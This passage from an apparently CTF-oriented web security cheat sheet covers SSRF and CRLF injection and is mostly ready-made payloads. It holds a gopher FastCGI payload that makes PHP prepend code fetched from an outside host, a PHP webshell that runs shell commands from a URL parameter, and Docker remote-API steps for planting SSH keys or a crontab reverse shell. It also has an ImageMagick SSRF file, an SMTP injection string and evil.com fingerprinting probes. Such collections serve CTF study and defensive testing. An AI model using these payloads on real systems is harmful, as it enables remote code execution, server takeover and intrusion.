                                 header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%8b%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/www//index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20=%20On%09%26PHP_VALUEauto_prepend_file%20=%20http://rs.panja.cc/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );`
                - x: `<?php system($_GET['cmd']); ?>`
                - visit: `/forum.php?mod=ajax&action=downremoteimg&message=[img]http://rs.panja.cc/302.php?.jpg[/img]`
    - MySQL
        - 无密码认证可以SSRF
        - MySQL Client与Server交互主要分两阶段
            - Connection Phase
            - Command Phase
        - `gopher://127.0.0.1:3306/_<PAYLOAD>`

    - Docker 
        - Remote api未授权访问
            - 开一个container，挂载/root/，写ssh key
            - 写crontab弹shell

    - ImageMagick - CVE-2016-3718
        - 可以发送HTTP或FTP request
        - payload: ssrf.mvg
        ```
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(http://example.com/)'
        pop graphic-context
        ```
        - `$ convert ssrf.mvg out.png`
    

## CRLF injection

### SMTP

SECCON 2017 SqlSRF:

`127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3Ckaibrotw%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/`

## FingerPrint

- dict
```
dict://evil.com:1234

$ nc -vl 1234
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 1234 [tcp/*] accepted (family 2, sport 40790)
CLIENT libcurl 7.35.0

-> libcurl version
```
- sftp
```
sftp://evil.com:1234

$ nc -vl 1234
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5278 [tcp/*] accepted (family 2, sport 40810)
SSH-2.0-libssh2_1.4.2

-> ssh version
```
